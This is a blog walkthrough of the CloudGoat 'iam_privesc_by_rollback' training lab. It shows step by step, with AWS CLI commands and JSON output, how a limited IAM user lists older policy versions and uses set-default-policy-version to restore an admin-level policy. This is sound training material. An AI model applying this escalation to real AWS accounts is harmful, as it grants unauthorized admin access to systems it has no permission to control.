



+++
title = 'Hands on Cloud Pentesting: 4 - Cloudgoat iam_privesc_by_rollback'
date = 2025-06-12T16:09:27+05:30
draft = false
series = "Hands on Cloud Pentesting"
tags = ["cloud","aws"]
+++

<!--more-->

## iam_privesc_by_rollback (Easy)

[Scenario Page](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/iam_privesc_by_rollback/README.md)
### Description
Starting with a highly-limited IAM user, the attacker is able to review previous IAM policy versions and restore one which allows full admin privileges, resulting in a privilege escalation exploit.

### Scenario Goal(s)
Acquire full admin privileges.

### Solution
Using the following command, we can start the cloudgoat scenario.
```bash
cloudgoat create iam_privesc_by_rollback
```
This scenario make use of only 1 IAM User and 1 IAM Policy with 5 versions. After configuring the given credentials, we can see that we are the user `raynor-cgid3j52g8t9w5`.


Lets checkout the policies that are attached to our user and the inline policies.

We can see that we have one polilcy - `cg-raynor-policy-cgid3j52g8t9w5`. Lets try to get that policy. For that, first we need the default version.
```json
//aws iam get-policy --profile raynor --policy-arn "arn:aws:iam::139343766080:policy/cg-raynor-policy-cgid3j52g8t9w5"
{
    "Policy": {
        "PolicyName": "cg-raynor-policy-cgid3j52g8t9w5",
        "PolicyId": "ANPASA4MJEJAHRPESWPFA",
        "Arn": "arn:aws:iam::139343766080:policy/cg-raynor-policy-cgid3j52g8t9w5",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "cg-raynor-policy",
        "CreateDate": "2025-06-12T10:44:55Z",
        "UpdateDate": "2025-06-12T10:45:03Z",
        "Tags": [
            {
                "Key": "Scenario",
                "Value": "iam-privesc-by-rollback"
            },
            {
                "Key": "Stack",
                "Value": "CloudGoat"
            }
        ]
    }
}
```

The default version is "v1"

```json
//aws iam get-policy-version --profile raynor --policy-arn "arn:aws:iam::139343766080:policy/cg-raynor-policy-cgid3j52g8t9w5" --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "IAMPrivilegeEscalationByRollback"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-06-12T10:44:55Z"
    }
}
```

We are allowed iam:Get*, iam:List* and iam:SetDefaultPolicyVersion on all resources. There is a [privilege escalation vector](https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-iam-privesc.html#iamsetdefaultpolicyversion) with iam:SetDefaultPolicyVersion using which, if there are older policy versions with higher permissions, we can set that as the default version and get more permissions than currently allowed.

For that lets try to see the other versions of the same policy;
```json
//aws iam get-policy-version --profile raynor --policy-arn "arn:aws:iam::139343766080:policy/cg-raynor-policy-cgid3j52g8t9w5" --version-id v2
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": {
                "Effect": "Deny",
                "Action": "*",
                "Resource": "*",
                "Condition": {
                    "NotIpAddress": {
                        "aws:SourceIp": [
                            "192.0.2.0/24",
                            "203.0.113.0/24"
                        ]
                    }
                }
            }
        },
        "VersionId": "v2",
        "IsDefaultVersion": false,
        "CreateDate": "2025-06-12T10:44:58Z"
    }
}
```
```json
//aws iam get-policy-version --profile raynor --policy-arn "arn:aws:iam::139343766080:policy/cg-raynor-policy-cgid3j52g8t9w5" --version-id v3
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v3",
        "IsDefaultVersion": false,
        "CreateDate": "2025-06-12T10:45:00Z"
    }
}
```
This version, "v3" has the policy statement to Allow all Actions on all Resources, which is basically admin privileges so now lets set this policy as the default version.
```bash
aws iam set-default-policy-version --policy-arn "arn:aws:iam::139343766080:policy/cg-raynor-policy-cgid3j52g8t9w5" --version-id v3 --profile raynor
```
After that when we try to get the policy, we can see that the default version has changed and the Scenario Goal is achieved.


Stop the scenario using the following command.
```bash
cloudgoat destroy iam_privesc_by_rollback
```

